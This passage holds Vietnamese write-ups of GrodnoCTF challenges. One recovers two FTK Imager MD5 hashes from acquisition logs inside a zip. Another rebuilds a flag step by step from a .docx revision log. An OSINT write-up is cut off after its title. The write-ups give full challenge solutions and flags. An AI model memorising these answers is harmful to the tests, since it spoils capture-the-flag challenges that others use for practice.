date = '2026-07-14T01:23:20+07:00'
draft = false
tags = ['GrodnoCTF', 'disk-imaging', 'ftk-imager', 'usb']
categories = ['Forensics']
+++


**Category:** Forensics / Disk Imaging
**Flag format:** `grodno{md5_first_md5_second}`
**Flag cuối:** `grodno{09817bced4213360c1cb2749aa375523_2bdab2c08b5b507876bf2f2d7e548cc5}`

---

### Mô tả bài

> We obtained an archive with USB acquisition artifacts and a short description of the experiment.
> Recover the MD5 hashes of the two Windows FTK Imager acquisitions:
> - Flash-firstrun.001
> - Flash-secondrun.001
>
> Flag format: `grodno{md5_first_md5_second}`

**Tải về đề bài:** [challenge files — OneDrive](https://1drv.ms/u/c/2f661437c52d8a10/IQDNhKqLrc7zSpg15bSfLgLcAcvfEFJKjWiAbRPcVUE3eDY?e=EM6nY2)

---

### Nhận file và kiểm tra nhanh

Giải nén file challenge ra thì thấy hai thứ:

```bash
$ ls -lh
```

```
total 99M
-rw-rw-r-- 1 poeency poeency  50M  'The USB That Wouldn't Repeat.zip'
-rw-r--r-- 1 poeency poeency  50M  usb-non-deterministic-files.zip
-rw-r--r-- 1 poeency poeency  66K  usb-non-deterministic-narrative.pdf
```

Một file PDF mô tả thí nghiệm và một file zip 50MB chứa artifacts. Cái tên bài — *"The USB That Wouldn't Repeat"* — ngay lập tức gợi ý điều gì đó: cùng một USB được thu thập hai lần, nhưng kết quả không giống nhau. Đây là hiện tượng thực trong khoa học pháp chứng số liên quan đến flash memory — USB hiện đại thường có cơ chế wear-leveling làm thay đổi vị trí vật lý của dữ liệu giữa hai lần đọc, dẫn đến hai bản image có hash khác nhau dù nội dung logic không đổi.

Đề bài hỏi MD5 của từng file image. Cái phản xạ đầu tiên là: 50MB mà muốn hash 3 file ~1GB mỗi cái thì phải giải nén ra đĩa đã, rồi mới tính được. Nhưng trước khi làm điều đó mình muốn xem bên trong zip có những gì.

---

### Phần 1: Khám phá cấu trúc zip trước khi giải nén

FTK Imager (AccessData Forensic Toolkit Imager) là một trong những công cụ thu thập chứng cứ số được dùng nhiều nhất trong môi trường Windows. Khi nó tạo ra một bản image — dù là `.001` (raw format), `.E01` (EnCase) hay định dạng khác — nó luôn sinh ra kèm theo một **file log `.txt`** cùng tên với file image.

File log này không phải ghi log lỗi hay debug. Nó là một phần bắt buộc của quy trình forensics vì nó chứa phần `[Computed Hashes]` — MD5 và SHA1 của toàn bộ image, được FTK tính ngay lúc thu thập. Đây là cơ sở để kiểm chứng tính toàn vẹn của chứng cứ (chain of custody).

Nếu file log này tồn tại bên trong zip, mình không cần giải nén file `.001` nặng ~1GB ra đĩa, tính lại hash từ đầu. Mình chỉ cần kéo file log ra. Kiểm tra trước:

```bash
$ unzip -l usb-non-deterministic-files.zip
```

```
Archive:  usb-non-deterministic-files.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2014-05-21 00:08   digitalcorpora/
        0  2014-05-21 00:07   digitalcorpora/linux-dc3dd/
1009778688  2014-05-20 23:59   digitalcorpora/linux-dc3dd/flash-firstrun.dd
1009778688  2014-05-21 00:00   digitalcorpora/linux-dc3dd/flash-secondrun.dd
      488  2014-05-21 00:00   digitalcorpora/linux-dc3dd/flash-secondrun.log
      485  2014-05-20 23:59   digitalcorpora/linux-dc3dd/flash-firstrun.log
        0  2014-05-21 01:32   digitalcorpora/windows7-ftkimager/
     1360  2014-05-21 01:06   digitalcorpora/windows7-ftkimager/flash-secondrun.001.txt
1009778688  2014-05-21 01:06   digitalcorpora/windows7-ftkimager/flash-secondrun.001
     1092  2014-05-21 00:27   digitalcorpora/windows7-ftkimager/flash-firstrun.001.txt
 994926949  2014-05-21 01:06   digitalcorpora/windows7-ftkimager/usb-2
1009778688  2014-05-21 00:26   digitalcorpora/windows7-ftkimager/flash-firstrun.001
 994070821  2014-05-21 00:27   digitalcorpora/windows7-ftkimager/usb-1
    54656  2014-05-21 01:32   digitalcorpora/windows7-ftkimager/ftk-imager-screenshot.png
---------                     -------
6028170603                     14 files
```

Nhìn vào danh sách này mình thấy ngay hai điều:

Thứ nhất, bên trong zip có hai nhánh tool thu thập khác nhau: `linux-dc3dd/` (dùng `dc3dd` — một biến thể forensics của `dd` trên Linux) và `windows7-ftkimager/` (FTK Imager chạy trên Windows 7). Đề bài hỏi cụ thể về FTK Imager, nên mình chỉ nhìn vào thư mục thứ hai.

Thứ hai, trong `windows7-ftkimager/`, có hai file log FTK Imager mình cần:
- `flash-firstrun.001.txt` — 1092 bytes
- `flash-secondrun.001.txt` — 1360 bytes

Hai file log chỉ nặng 1KB mỗi cái, trong khi hai file image `.001` nặng gần 1GB mỗi cái. Mình không giải nén toàn bộ.

---

### Phần 2: Trích xuất đúng hai file log

`unzip` cho phép chỉ định chính xác file cần giải nén, không cần kéo toàn bộ archive ra. Mình dùng flag `-j` để bỏ qua cấu trúc thư mục bên trong zip và đặt hai file thẳng vào thư mục hiện tại:

```bash
$ unzip -j usb-non-deterministic-files.zip \
    "digitalcorpora/windows7-ftkimager/flash-firstrun.001.txt" \
    "digitalcorpora/windows7-ftkimager/flash-secondrun.001.txt"
```

```
Archive:  usb-non-deterministic-files.zip
  inflating: flash-firstrun.001.txt
  inflating: flash-secondrun.001.txt
```

Hai file log được kéo ra trong chưa đầy một giây.

---

### Phần 3: Đọc hash từ file log

Đây là toàn bộ nội dung file `flash-firstrun.001.txt`:

```
Created By AccessData® FTK® Imager 3.1.4.6

Case Information:
Acquired using: ADI3.1.4.6
Case Number:
Evidence Number:
Unique Description:
Examiner:
Notes: First test

--------------------------------------------------------------

Information for C:\Users\FUF\Desktop\digitalcorpora\flash-firstrun:

Physical Evidentiary Item (Source) Information:
[Device Info]
 Source Type: Physical
[Drive Geometry]
 Cylinders: 122
 Tracks per Cylinder: 255
 Sectors per Track: 63
 Bytes per Sector: 512
 Sector Count: 1 972 224
[Physical Drive Information]
 Drive Model: JetFlash Transcend 1GB USB Device
 Drive Serial Number:
 Drive Interface Type: USB
 Removable drive: True
 Source data size: 963 MB
 Sector count:    1972224
[Computed Hashes]
 MD5 checksum:    09817bced4213360c1cb2749aa375523
 SHA1 checksum:   879b25099a3179f8e9dcdf4a8384a3b5b75c92f7

Image Information:
 Acquisition started:   Tue May 20 21:25:16 2014
 Acquisition finished:  Tue May 20 21:26:59 2014
 Segment list:
  C:\Users\FUF\Desktop\digitalcorpora\flash-firstrun.001
```

Và `flash-secondrun.001.txt`:

```
Created By AccessData® FTK® Imager 3.1.4.6

Case Information:
Acquired using: ADI3.1.4.6
Case Number:
Evidence Number:
Unique Description:
Examiner:
Notes: Second test

--------------------------------------------------------------

Information for C:\Users\FUF\Desktop\digitalcorpora\flash-secondrun:

[Physical Drive Information]
 Drive Model: JetFlash Transcend 1GB USB Device
 Drive Interface Type: USB
 Removable drive: True
 Source data size: 963 MB
 Sector count:    1972224
[Computed Hashes]
 MD5 checksum:    2bdab2c08b5b507876bf2f2d7e548cc5
 SHA1 checksum:   9ecf9934d17f1d3953d43d59b0d237a8b560916e

Image Information:
 Acquisition started:   Tue May 20 22:04:18 2014
 Acquisition finished:  Tue May 20 22:06:03 2014

Image Verification Results:
 Verification started:  Tue May 20 22:06:06 2014
 Verification finished: Tue May 20 22:06:34 2014
 MD5 checksum:    2bdab2c08b5b507876bf2f2d7e548cc5 : verified
 SHA1 checksum:   9ecf9934d17f1d3953d43d59b0d237a8b560916e : verified
```

Có một điểm thú vị so sánh giữa hai file log: file secondrun có thêm phần `Image Verification Results` — FTK Imager đã chạy lại một vòng hash kiểm tra sau khi thu thập xong và xác nhận hash khớp (`verified`). Đây là bước forensically sound — đảm bảo dữ liệu ghi xuống image không bị thay đổi trong quá trình thu thập. File firstrun không có bước này, có thể người làm đã bỏ qua hoặc tool không tự động chạy.

---

> Khoảnh khắc mình thấy hai hash MD5 khác nhau hoàn toàn — `09817bced...` và `2bdab2c0...` — dù cùng một thiết bị vật lý — là lúc cái tên bài "The USB That Wouldn't Repeat" có nghĩa hoàn toàn. Flash NAND trong USB hiện đại sử dụng wear-leveling để phân phối đều lượng ghi vào các ô nhớ, tránh để một khu vực bị ghi quá nhiều. Khi `dc3dd` hay FTK Imager đọc image ở mức vật lý (raw physical), nó đọc theo thứ tự sector vật lý — nhưng flash controller đã âm thầm remapped các sector đó giữa hai lần acquisition. Kết quả: cùng một USB, hai lần image, hai hash khác nhau. Đây là lý do trong pháp chứng số người ta vừa phải ghi hash ngay lúc thu thập, vừa cần dùng write blocker để ngăn bất kỳ ghi nào lên thiết bị trong lúc đọc.

---

### Ghép Flag

| Thành phần | Giá trị | Nguồn |
|---|---|---|
| `md5_first` | `09817bced4213360c1cb2749aa375523` | `[Computed Hashes]` trong `flash-firstrun.001.txt` |
| `md5_second` | `2bdab2c08b5b507876bf2f2d7e548cc5` | `[Computed Hashes]` trong `flash-secondrun.001.txt` |

```
grodno{09817bced4213360c1cb2749aa375523_2bdab2c08b5b507876bf2f2d7e548cc5}
```

---

### Bài học rút ra

**1. FTK Imager luôn sinh file log `.txt` — đó là nơi hash được lưu sẵn**
Bất kỳ image nào được tạo bằng FTK Imager đều có file log đi kèm, chứa section `[Computed Hashes]` với MD5 và SHA1. Gặp bài liên quan đến FTK acquisition, tìm file `.txt` cùng tên với file image trước khi làm bất cứ thứ gì khác.

**2. `unzip -j` để kéo file cụ thể ra khỏi zip mà không giải nén toàn bộ**
Khi biết đường dẫn file bên trong zip, lệnh `unzip -j archive.zip "path/to/file"` kéo ra đúng file đó mà không đụng đến phần còn lại. Cực hữu ích khi zip chứa các file image hàng GB mà mình chỉ cần một file log vài KB.

**3. Flash memory không phải thiết bị "deterministic" ở mức vật lý**
Đây là lý do cái tên bài có chữ "Wouldn't Repeat". HDD thông thường đọc cùng sector thì luôn trả về cùng dữ liệu. Flash NAND có wear-leveling controller làm cho mapping sector vật lý → ô nhớ thay đổi theo thời gian. Hai lần acquisition cùng USB có thể cho hash khác nhau — và đây không phải lỗi, đây là đặc tính của thiết bị. Trong forensics, khi gặp flash memory, hash acquired ngay lúc thu thập là chuẩn — đừng dùng hash tính lại sau.

**4. Phần `Image Verification Results` trong log secondrun là dấu hiệu forensically sound**
File log secondrun có thêm bước xác minh sau acquisition: FTK tính lại hash image đã ghi và so khớp với hash lúc đọc nguồn. Đây là quy trình chuẩn để đảm bảo dữ liệu không bị hỏng trong quá trình ghi. Nếu thấy dòng `: verified` ở cuối log, image đó đáng tin cậy hoàn toàn về mặt toàn vẹn dữ liệu.


# Miscellaneous

## 1. Thông tin tổng quan

* Challenge: Invisible Editor
* Category: Misc
* Description


---

## 2. Kiến thức lý thuyết cốt lõi
Để giải quyết thử thách này, chúng ta cần hiểu bản chất cấu trúc của các định dạng tài liệu hiện đại:
* **Office Open XML (OOXML):** Kể từ phiên bản Office 2007, các file Word `.docx` (hoặc Excel `.xlsx`, PowerPoint `.pptx`) thực chất là một **file nén định dạng ZIP**. Bên trong nó chứa một cấu trúc thư mục gồm các file XML cấu hình, file văn bản thô, và các tệp đa phương tiện đi kèm.
* **Custom XML & Log thay đổi:** Khi một tài liệu được chỉnh sửa qua các trình soạn thảo (đặc biệt là các bản lưu vết trực tuyến hoặc tính năng Track Changes), các thay đổi này thường không hiển thị trực tiếp trên giao diện Word thông thường mà được ghi lại dưới dạng nhật ký (Log) trong các file XML tùy biến, tiêu biểu là tệp `item1.xml` nằm trong thư mục `customXml`. 

---

## 3. Quá trình giải quyết

#### Bước 1: Khảo sát file Word ban đầu
Khi tải về và mở tệp tin `invisible_editor.docx`, tài liệu chỉ hiển thị duy nhất một dòng nội dung:
`Did you see the flag?`

Ngoài câu hỏi trên, không có bất kỳ thông tin hay manh mối ẩn nào xuất hiện trên giao diện Word thông thường. Từ đây, chúng ta đặt ra hai câu hỏi mang tính quyết định:
1. *Liệu tài liệu này có lưu trữ lịch sử chỉnh sửa (Revision Log) hay không?*
2. *Nội dung thực tế trước khi câu hỏi này được nhập vào là gì? Có khả năng đó chính là flag đã bị ghi đè?*

#### Bước 2: Khám phá cấu trúc bên trong tệp .docx
Để kiểm tra giả thuyết trên, ta tiến hành đổi đuôi tệp từ `.docx` sang `.zip` và giải nén để phân tích cấu trúc mã nguồn bên trong. Kết quả giải nén cho thấy tài liệu được cấu thành từ 4 thư mục và 1 tệp tin XML:



#### Bước 3: Định vị manh mối trong các tệp cấu hình XML
Tiến hành rà soát các thư mục vừa giải nén:
* Các thư mục cấu hình mặc định của Microsoft Word không chứa thông tin nào bất thường.
* Tuy nhiên, khi kiểm tra thư mục `customXml`, chúng ta tìm thấy tệp tin `item1.xml`.

Bên trong tệp tin này xuất hiện cấu trúc `<revisionLog>` ghi lại lịch sử thay đổi của văn bản. Đặc biệt, giá trị khởi tạo ban đầu nằm trong thẻ `<initial>` là chuỗi `grodno`. Đây chính là manh mối then chốt xác nhận tài liệu này đã lưu lại toàn bộ vết chỉnh sửa, mở ra hướng đi phân tích chi tiết các bước thay đổi tiếp theo để khôi phục lại flag ban đầu.

---

## 4. Phân tích chi tiết từng bước

Để tìm ra flag, ta cần theo dõi sự biến đổi của chuỗi văn bản qua từng bước chỉnh sửa (Revisions) trong file `item1.xml`. Dưới đây là phân tích chi tiết thực tế của từng bước:

* **Giá trị khởi tạo ban đầu (Initial):** `grodno`

#### Phân tích chi tiết từ Step 1 đến Step 20 (Quá trình dựng Flag):

##### **Step 1:**
```xml
<revision step="1" author="Invisible Editor" at="2026-02-19T10:01:00Z">
    <deleted>
        <chunk>gro</chunk>
        <chunk>dn</chunk>
        <chunk>o</chunk>
    </deleted>
    <inserted>
        <chunk>grod</chunk>
        <chunk>no{</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa `gro`, `dn`, `o` (toàn bộ chuỗi ban đầu `grodno`), sau đó được nhập `grod` và `no{`. Đây là khởi đầu của format flag được quy định trong CTF này, vậy xác nhận ta đã đi đúng hướng và chỉ cần phân tích các step tiếp theo.
* **Nội dung sau khi phân tích Step 1:** `grodno{`

---

##### **Step 2:**
```xml
<revision step="2" author="Invisible Editor" at="2026-02-19T10:02:00Z">
    <deleted>
        <chunk>gro</chunk>
        <chunk>dno{</chunk>
    </deleted>
    <inserted>
        <chunk>gr</chunk>
        <chunk>odn</chunk>
        <chunk>o</chunk>
        <chunk>{F</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa các chunk `gro`, `dno{` (tức xóa chuỗi `grodno{` từ Step 1) và chèn thêm các chunk ký tự mới là `gr`, `odn`, `o`, `{F`.
* **Nội dung sau khi phân tích Step 2:** `grodno{F`

---

##### **Step 3:**
```xml
<revision step="3" author="Invisible Editor" at="2026-02-19T10:03:00Z">
    <deleted>
        <chunk>grod</chunk>
        <chunk>n</chunk>
        <chunk>o{F</chunk>
    </deleted>
    <inserted>
        <chunk>grod</chunk>
        <chunk>no{F</chunk>
        <chunk>1</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa các chunk `grod`, `n`, `o{F` (chuỗi `grodno{F` cũ) và chèn thêm các chunk mới `grod`, `no{F`, `1`.
* **Nội dung sau khi phân tích Step 3:** `grodno{F1`

---

##### **Step 4:**
```xml
<revision step="4" author="Invisible Editor" at="2026-02-19T10:04:00Z">
    <deleted>
        <chunk>g</chunk>
        <chunk>rod</chunk>
        <chunk>n</chunk>
        <chunk>o{F1</chunk>
    </deleted>
    <inserted>
        <chunk>gr</chunk>
        <chunk>od</chunk>
        <chunk>no{</chunk>
        <chunk>F1@</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa các chunk `g`, `rod`, `n`, `o{F1` (chuỗi `grodno{F1` cũ) và chèn thêm các chunk mới `gr`, `od`, `no{`, `F1@`.
* **Nội dung sau khi phân tích Step 4:** `grodno{F1@`

---

##### **Step 5:**
```xml
<revision step="5" author="Invisible Editor" at="2026-02-19T10:05:00Z">
    <deleted>
        <chunk>gro</chunk>
        <chunk>dn</chunk>
        <chunk>o</chunk>
        <chunk>{</chunk>
        <chunk>F</chunk>
        <chunk>1@</chunk>
    </deleted>
    <inserted>
        <chunk>g</chunk>
        <chunk>r</chunk>
        <chunk>od</chunk>
        <chunk>no</chunk>
        <chunk>{</chunk>
        <chunk>F1@</chunk>
        <chunk>g</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa toàn bộ các chunk của chuỗi `grodno{F1@` cũ và chèn thêm chuỗi mới kết thúc bằng ký tự `g`.
* **Nội dung sau khi phân tích Step 5:** `grodno{F1@g`

---

##### **Step 6:**
```xml
<revision step="6" author="Invisible Editor" at="2026-02-19T10:06:00Z">
    <deleted>
        <chunk>grod</chunk>
        <chunk>no{</chunk>
        <chunk>F</chunk>
        <chunk>1@g</chunk>
    </deleted>
    <inserted>
        <chunk>grod</chunk>
        <chunk>no</chunk>
        <chunk>{</chunk>
        <chunk>F1@</chunk>
        <chunk>g_</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa cấu trúc cũ và chèn thêm dấu gạch dưới `_` sau chữ `g`.
* **Nội dung sau khi phân tích Step 6:** `grodno{F1@g_`

---

##### **Step 7:**
```xml
<revision step="7" author="Invisible Editor" at="2026-02-19T10:07:00Z">
    <deleted>
        <chunk>gr</chunk>
        <chunk>od</chunk>
        <chunk>n</chunk>
        <chunk>o{F1</chunk>
        <chunk>@g_</chunk>
    </deleted>
    <inserted>
        <chunk>g</chunk>
        <chunk>rodn</chunk>
        <chunk>o{F</chunk>
        <chunk>1@g</chunk>
        <chunk>_W</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa chuỗi cũ và chèn thêm ký tự `W` vào cuối.
* **Nội dung sau khi phân tích Step 7:** `grodno{F1@g_W`

---

##### **Step 8:**
```xml
<revision step="8" author="Invisible Editor" at="2026-02-19T10:08:00Z">
    <deleted>
        <chunk>g</chunk>
        <chunk>ro</chunk>
        <chunk>d</chunk>
        <chunk>no</chunk>
        <chunk>{F1</chunk>
        <chunk>@</chunk>
        <chunk>g_</chunk>
        <chunk>W</chunk>
    </deleted>
    <inserted>
        <chunk>gro</chunk>
        <chunk>d</chunk>
        <chunk>no</chunk>
        <chunk>{F1@</chunk>
        <chunk>g_W</chunk>
        <chunk>@</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa chuỗi cũ và chèn thêm ký tự `@` sau chữ `W`.
* **Nội dung sau khi phân tích Step 8:** `grodno{F1@g_W@`

---

##### **Step 9:**
```xml
<revision step="9" author="Invisible Editor" at="2026-02-19T10:09:00Z">
    <deleted>
        <chunk>grod</chunk>
        <chunk>no{</chunk>
        <chunk>F1</chunk>
        <chunk>@</chunk>
        <chunk>g_W@</chunk>
    </deleted>
    <inserted>
        <chunk>gro</chunk>
        <chunk>dno{</chunk>
        <chunk>F</chunk>
        <chunk>1@</chunk>
        <chunk>g_W</chunk>
        <chunk>@5</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa chuỗi cũ và chèn thêm ký tự `5` ở cuối.
* **Nội dung sau khi phân tích Step 9:** `grodno{F1@g_W@5`

---

##### **Step 10:**
```xml
<revision step="10" author="Invisible Editor" at="2026-02-19T10:10:00Z">
    <deleted>
        <chunk>gr</chunk>
        <chunk>od</chunk>
        <chunk>no</chunk>
        <chunk>{F1@</chunk>
        <chunk>g_W@</chunk>
        <chunk>5</chunk>
    </deleted>
    <inserted>
        <chunk>gro</chunk>
        <chunk>dn</chunk>
        <chunk>o{</chunk>
        <chunk>F1@</chunk>
        <chunk>g_W@</chunk>
        <chunk>5_</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa chuỗi cũ và chèn thêm dấu gạch dưới `_` sau số `5`.
* **Nội dung sau khi phân tích Step 10:** `grodno{F1@g_W@5_`

---

##### **Step 11:**
```xml
<revision step="11" author="Invisible Editor" at="2026-02-19T10:11:00Z">
    <deleted>
        <chunk>grod</chunk>
        <chunk>no</chunk>
        <chunk>{F1@</chunk>
        <chunk>g_W</chunk>
        <chunk>@</chunk>
        <chunk>5</chunk>
        <chunk>_</chunk>
    </deleted>
    <inserted>
        <chunk>grod</chunk>
        <chunk>no{</chunk>
        <chunk>F1@</chunk>
        <chunk>g_W@</chunk>
        <chunk>5_H</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa chuỗi cũ và chèn thêm chữ cái `H` viết hoa.
* **Nội dung sau khi phân tích Step 11:** `grodno{F1@g_W@5_H`

---

##### **Step 12:**
```xml
<revision step="12" author="Invisible Editor" at="2026-02-19T10:12:00Z">
    <deleted>
        <chunk>gr</chunk>
        <chunk>odn</chunk>
        <chunk>o{F1</chunk>
        <chunk>@g_W</chunk>
        <chunk>@5_H</chunk>
    </deleted>
    <inserted>
        <chunk>gr</chunk>
        <chunk>odn</chunk>
        <chunk>o{</chunk>
        <chunk>F1@g</chunk>
        <chunk>_</chunk>
        <chunk>W@5_</chunk>
        <chunk>H</chunk>
        <chunk>3</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa chuỗi cũ và chèn thêm số `3` sau chữ `H`.
* **Nội dung sau khi phân tích Step 12:** `grodno{F1@g_W@5_H3`

---

##### **Step 13:**
```xml
<revision step="13" author="Invisible Editor" at="2026-02-19T10:13:00Z">
    <deleted>
        <chunk>g</chunk>
        <chunk>rod</chunk>
        <chunk>no{F</chunk>
        <chunk>1@g_</chunk>
        <chunk>W@</chunk>
        <chunk>5</chunk>
        <chunk>_H3</chunk>
    </deleted>
    <inserted>
        <chunk>gr</chunk>
        <chunk>odno</chunk>
        <chunk>{</chunk>
        <chunk>F1</chunk>
        <chunk>@g_</chunk>
        <chunk>W</chunk>
        <chunk>@5_H</chunk>
        <chunk>3r</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa chuỗi cũ và chèn thêm ký tự `r` thường ở cuối.
* **Nội dung sau khi phân tích Step 13:** `grodno{F1@g_W@5_H3r`

---

##### **Step 14:**
```xml
<revision step="14" author="Invisible Editor" at="2026-02-19T10:14:00Z">
    <deleted>
        <chunk>gro</chunk>
        <chunk>dno</chunk>
        <chunk>{F1</chunk>
        <chunk>@</chunk>
        <chunk>g_</chunk>
        <chunk>W</chunk>
        <chunk>@5_H</chunk>
        <chunk>3r</chunk>
    </deleted>
    <inserted>
        <chunk>g</chunk>
        <chunk>ro</chunk>
        <chunk>dn</chunk>
        <chunk>o{F1</chunk>
        <chunk>@</chunk>
        <chunk>g_W@</chunk>
        <chunk>5_H3</chunk>
        <chunk>r</chunk>
        <chunk>3</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa chuỗi cũ và chèn thêm số `3` sau ký tự `r`.
* **Nội dung sau khi phân tích Step 14:** `grodno{F1@g_W@5_H3r3`

---

##### **Step 15:**
```xml
<revision step="15" author="Invisible Editor" at="2026-02-19T10:15:00Z">
    <deleted>
        <chunk>gr</chunk>
        <chunk>od</chunk>
        <chunk>no</chunk>
        <chunk>{F</chunk>
        <chunk>1</chunk>
        <chunk>@g_W</chunk>
        <chunk>@5_H</chunk>
        <chunk>3r3</chunk>
    </deleted>
    <inserted>
        <chunk>gro</chunk>
        <chunk>dno</chunk>
        <chunk>{</chunk>
        <chunk>F1@g</chunk>
        <chunk>_W@</chunk>
        <chunk>5</chunk>
        <chunk>_H</chunk>
        <chunk>3</chunk>
        <chunk>r</chunk>
        <chunk>3_</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa chuỗi cũ và chèn thêm ký tự gạch dưới `_` ở cuối.
* **Nội dung sau khi phân tích Step 15:** `grodno{F1@g_W@5_H3r3_`

---

##### **Step 16:**
```xml
<revision step="16" author="Invisible Editor" at="2026-02-19T10:16:00Z">
    <deleted>
        <chunk>gr</chunk>
        <chunk>od</chunk>
        <chunk>no</chunk>
        <chunk>{</chunk>
        <chunk>F</chunk>
        <chunk>1@</chunk>
        <chunk>g_W@</chunk>
        <chunk>5_</chunk>
        <chunk>H</chunk>
        <chunk>3r3_</chunk>
    </deleted>
    <inserted>
        <chunk>gr</chunk>
        <chunk>odno</chunk>
        <chunk>{F1</chunk>
        <chunk>@g_W</chunk>
        <chunk>@5_H</chunk>
        <chunk>3r</chunk>
        <chunk>3</chunk>
        <chunk>_</chunk>
        <chunk>0</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa chuỗi cũ và chèn thêm chữ số `0` ở cuối.
* **Nội dung sau khi phân tích Step 16:** `grodno{F1@g_W@5_H3r3_0`

---

##### **Step 17:**
```xml
<revision step="17" author="Invisible Editor" at="2026-02-19T10:17:00Z">
    <deleted>
        <chunk>gr</chunk>
        <chunk>odn</chunk>
        <chunk>o{F</chunk>
        <chunk>1@g_</chunk>
        <chunk>W</chunk>
        <chunk>@</chunk>
        <chunk>5_</chunk>
        <chunk>H</chunk>
        <chunk>3</chunk>
        <chunk>r3_0</chunk>
    </deleted>
    <inserted>
        <chunk>gro</chunk>
        <chunk>dno</chunk>
        <chunk>{F</chunk>
        <chunk>1</chunk>
        <chunk>@g_W</chunk>
        <chunk>@5_</chunk>
        <chunk>H3r3</chunk>
        <chunk>_0n</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa chuỗi cũ và chèn thêm chữ cái `n` thường sau số `0`.
* **Nội dung sau khi phân tích Step 17:** `grodno{F1@g_W@5_H3r3_0n`

---

##### **Step 18:**
```xml
<revision step="18" author="Invisible Editor" at="2026-02-19T10:18:00Z">
    <deleted>
        <chunk>g</chunk>
        <chunk>rod</chunk>
        <chunk>n</chunk>
        <chunk>o</chunk>
        <chunk>{</chunk>
        <chunk>F</chunk>
        <chunk>1@g</chunk>
        <chunk>_W@5</chunk>
        <chunk>_H3r</chunk>
        <chunk>3_0n</chunk>
    </deleted>
    <inserted>
        <chunk>grod</chunk>
        <chunk>no</chunk>
        <chunk>{</chunk>
        <chunk>F1@g</chunk>
        <chunk>_W</chunk>
        <chunk>@5</chunk>
        <chunk>_</chunk>
        <chunk>H3r3</chunk>
        <chunk>_0</chunk>
        <chunk>n</chunk>
        <chunk>c</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa chuỗi cũ và chèn thêm chữ cái `c` sau chữ `n`.
* **Nội dung sau khi phân tích Step 18:** `grodno{F1@g_W@5_H3r3_0nc`

---

##### **Step 19:**
```xml
<revision step="19" author="Invisible Editor" at="2026-02-19T10:19:00Z">
    <deleted>
        <chunk>grod</chunk>
        <chunk>no</chunk>
        <chunk>{</chunk>
        <chunk>F1</chunk>
        <chunk>@g</chunk>
        <chunk>_W@5</chunk>
        <chunk>_</chunk>
        <chunk>H3r3</chunk>
        <chunk>_0n</chunk>
        <chunk>c</chunk>
    </deleted>
    <inserted>
        <chunk>gro</chunk>
        <chunk>dno</chunk>
        <chunk>{</chunk>
        <chunk>F1@g</chunk>
        <chunk>_W@</chunk>
        <chunk>5_H</chunk>
        <chunk>3</chunk>
        <chunk>r3_</chunk>
        <chunk>0nc</chunk>
        <chunk>3</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa chuỗi cũ và chèn thêm chữ số `3` sau chữ `c`.
* **Nội dung sau khi phân tích Step 19:** `grodno{F1@g_W@5_H3r3_0nc3`

---

##### **Step 20:**
```xml
<revision step="20" author="Invisible Editor" at="2026-02-19T10:20:00Z">
    <deleted>
        <chunk>g</chunk>
        <chunk>r</chunk>
        <chunk>o</chunk>
        <chunk>dno{</chunk>
        <chunk>F1@g</chunk>
        <chunk>_</chunk>
        <chunk>W@5_</chunk>
        <chunk>H</chunk>
        <chunk>3</chunk>
        <chunk>r3_0</chunk>
        <chunk>nc3</chunk>
    </deleted>
    <inserted>
        <chunk>g</chunk>
        <chunk>rod</chunk>
        <chunk>no{F</chunk>
        <chunk>1@</chunk>
        <chunk>g</chunk>
        <chunk>_W@5</chunk>
        <chunk>_H3</chunk>
        <chunk>r3_</chunk>
        <chunk>0</chunk>
        <chunk>nc</chunk>
        <chunk>3}</chunk>
    </inserted>
</revision>
```
* **Phân tích:** Xóa chuỗi cũ và chèn thêm dấu đóng ngoặc nhọn `}` ở cuối để hoàn tất cấu trúc Flag.
* **Nội dung sau khi phân tích Step 20:** `grodno{F1@g_W@5_H3r3_0nc3}`

---

#### Tóm tắt từ Step 21 đến Step 100 (Quá trình ẩn giấu Flag):

Kể từ Step 21, người biên soạn bắt đầu thay thế dần các ký tự của flag nhằm biến nó thành `Did you see the flag?`

---

## 5. Flag
`grodno{F1@g_W@5_H3r3_0nc3}`


# OSINT

## [Grodno CTF] Strongest Beaver - Writeup (OSINT)

**Author:** @hckerror | **Difficulty:** Hard | **Category:** OSINT

---

